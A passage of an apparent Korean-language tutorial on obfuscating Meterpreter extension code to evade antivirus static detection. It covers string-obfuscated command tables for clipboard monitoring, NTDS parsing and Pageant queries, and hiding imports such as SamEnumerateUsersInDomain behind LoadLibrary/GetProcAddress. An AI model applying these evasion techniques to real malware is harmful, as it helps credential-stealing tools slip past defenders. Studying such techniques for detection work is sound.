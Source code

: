 ```cpp
char hid_extapi_01kuYCM8z49k[] = {'e','x','t','a','p','i','_','a','d','s','i','_','d','o','m','a','i','n','_','q','u','e','r','y',0};
char hid_extapi_SMK9uFj6nThk[] = {'e','x','t','a','p','i','_','n','t','d','s','_','p','a','r','s','e',0};
char hid_extapi_PHxnGM7M0609[] = {'e','x','t','a','p','i','_','w','m','i','_','q','u','e','r','y',0};
char hid_extapi_J7EGS6FRHwkV[] = {'e','x','t','a','p','i','_','p','a','g','e','a','n','t','_','s','e','n','d','_','q','u','e','r','y',0};

Command customCommands[] =
{

    COMMAND_REQ(hid_extapi_UQOoNXigAPq4, request_window_enum),
    COMMAND_REQ(hid_extapi_vhFHmZ8u2hfz, request_service_enum),
    COMMAND_REQ(hid_extapi_pW25eeIGBeru, request_service_query),
    COMMAND_REQ(hid_extapi_S4Ws57MYBjib, request_service_control),
    COMMAND_REQ(hid_extapi_HJ0lD9Dl56A4, request_clipboard_get_data),
    COMMAND_REQ(hid_extapi_IiEzXils3UsR, request_clipboard_set_data),
    COMMAND_REQ(hid_extapi_czLOBo0HcqCP, request_clipboard_monitor_start),
    COMMAND_REQ(hid_extapi_WcWbTrsQujiT, request_clipboard_monitor_pause),
    COMMAND_REQ(hid_extapi_rPiFTZW4ShwA, request_clipboard_monitor_resume),
    COMMAND_REQ(hid_extapi_05fAoaZLqOoy, request_clipboard_monitor_purge),
    COMMAND_REQ(hid_extapi_cOOyHTPTvZGK, request_clipboard_monitor_stop),
    COMMAND_REQ(hid_extapi_smtmvW05cI9y, request_clipboard_monitor_dump),
    COMMAND_REQ(hid_extapi_01kuYCM8z49k, request_adsi_domain_query),
    COMMAND_REQ(hid_extapi_SMK9uFj6nThk, ntds_parse),
    COMMAND_REQ(hid_extapi_PHxnGM7M0609, request_wmi_query),
    COMMAND_REQ(hid_extapi_J7EGS6FRHwkV, request_pageant_send_query),
    COMMAND_TERMINATOR
};
```

### API Imports 숨기기

외부 라이브러리에 의해  내보낸 함수를 호출하면 링커가 *Import Address Table*(IAT)에 항목을 기록한다. 결과적으로 함수 이름은 바이너리 내에서 평문으로 드러날 것이고 멀웨어의 실행 없이도 정적으로 복구할 수 있다. 물론 다른 것보다 더 의심스러운 함수 이름이 있다. 모든 의심스러운 것들을 숨기고 대부분 정당한 바이너리에 존재하는 것을 유지하는 것이 현명하다.

예를 들어 Metepreter의 *kiwi* 확장에서 아래와 같은 라인을 찾을 수 있다.

```cpp
enumStatus = SamEnumerateUsersInDomain(hDomain, &EnumerationContext, 0, &pEnumBuffer, 100, &CountRetourned);
```

이 함수는 *samlib.dll*에서 내보내지므로 링커는 컴파일된 바이너리에 *"samlib.dll"*과 *"SamEnumberateUsersInDomain"* 문자열이 표시되도록 한다. 

이러한 이슈를 해결하기 위해서 실행 중에 LoadLibrary/GetProcAddress를 사용하여 API를 가져올 수 있다. 물론 이러한 함수는 문자열과 함께 동작하므로 난독화를 잘 해야한다. 그러므로 아래와 같이 위의 코드를 자동적으로 재작성해야한다.

```cpp
typedef NTSTATUS(__stdcall* _SamEnumerateUsersInDomain)(
    SAMPR_HANDLE DomainHandle,
    PDWORD EnumerationContext,
    DWORD UserAccountControl,
    PSAMPR_RID_ENUMERATION* Buffer,
    DWORD PreferedMaximumLength,
    PDWORD CountReturned
);
char hid_SAMLIB_01zmejmkLCHt[] = {'S','A','M','L','I','B','.','D','L','L',0};
char hid_SamEnu_BZxlW5ZBUAAe[] = {'S','a','m','E','n','u','m','e','r','a','t','e','U','s','e','r','s','I','n','D','o','m','a','i','n',0};
HANDLE hhid_SAMLIB_BZUriyLrlgrJ = LoadLibrary(hid_SAMLIB_01zmejmkLCHt);
_SamEnumerateUsersInDomain ffSamEnumerateUsersInDoma =(_SamEnumerateUsersInDomain)GetProcAddress(hhid_SAMLIB_BZUriyLrlgrJ, hid_SamEnu_BZxlW5ZBUAAe);
```
